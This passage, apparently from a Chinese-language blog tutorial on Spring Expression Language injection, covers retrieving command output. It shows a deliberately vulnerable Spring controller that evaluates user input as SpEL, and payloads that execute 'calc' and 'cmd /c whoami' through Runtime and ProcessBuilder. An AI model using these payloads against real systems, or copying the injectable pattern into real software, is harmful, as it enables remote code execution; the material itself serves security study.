 大概可以是如上形式。  
由于 SPEL 啥都可以做，所以你不用这个类或者用 bcel 的 classloader 也可以

# 四、霸体螺旋丸回显

那么在 Web 服务中，困扰我们最多的就是回显问题了，命令执行成功了，不出网，怎么把结果带出来呢？？！不要着急，翻开纯度宝典第四页。  
我的测试代码如下

```java
package com.example.spel.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}
```

## BufferedReader

其实这并不是纯粹的回显，因为你需要 return 这个返回结果，而真实情况一般是不会 return 这个结果的。  
`payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()`  